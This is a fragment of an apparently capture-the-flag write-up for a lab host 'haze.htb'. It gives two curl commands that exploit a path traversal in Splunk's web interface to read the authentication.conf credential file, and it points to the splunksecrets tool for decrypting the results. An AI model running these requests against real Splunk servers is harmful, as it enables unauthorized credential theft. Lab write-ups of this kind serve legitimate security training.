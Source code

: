 RESULT:

![](images/media/image9.png){width="6.288888888888889in"
height="4.028472222222222in"}

Check SPLUNK Documentary. Default Installation Directory: C:\\Program
Files\\Splunk

<https://docs.splunk.com/Documentation/Splunk/9.4.2/Installation/InstallonWindowsviathecommandline>

**8.**INFO: Captured authentication.conf through Terminal
**https://github.com/HurricaneLabs/splunksecrets**

**Both paths work**

**RUN:** **curl -s
http://haze.htb:8000/en-US/modules/messaging/C:../C:../C:../C:../C:../etc/system/local/authentication.conf**

**RUN: curl -s
<http://haze.htb:8000/en-US/modules/messaging/C:../C:../C:../C:../C:../C:../C:../C:../C:../C:../C:/Program%20Files/Splunk/etc/system/local/authentication.conf>**
